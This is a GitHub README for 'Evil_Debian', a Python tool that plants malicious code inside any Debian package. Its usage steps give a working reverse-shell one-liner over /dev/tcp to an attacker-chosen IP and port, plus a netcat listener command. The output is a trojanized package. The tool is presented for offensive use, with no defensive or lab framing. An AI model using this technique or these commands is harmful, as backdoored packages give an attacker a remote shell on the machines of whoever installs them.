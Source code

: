# Evil_Debian
A Simple python Program for linux os to Put Your malicious Code inside any Debian Package  .


# Usage
1> Just Download this Script.


2> Then Go to the location were this script is stored .


3> Execute the following command-:  "chmod +x evil_debian.py"


4> This will change the mod of your file to executable.


5> Then just Run the script by executing this command-: "python3 evil_debian.py"


5> Then it will ask the location of you debian package
   you have to enter the full location of your debian file (It can be any debian file)
and after entering it will again ask for a input and there you can input any reverse shell , you can search reverse shell on google or


6> Just enter this > "sh -i >& /dev/tcp/YourIp/YourPort 0>&1"       enter you machine ip and the port u want to listen on


7> Then just listen to that port by executing this in a new terminal > "nc -lnvp YouPort"


8> and there a new file would be created named mailicious_package


9> and in that directory you will the same debian package that you entered before but in this one it has you malicious code


# Requirements

1> Python3


2> any Linux OS











*> For Any Help Contact me on Discord - Asad#2809
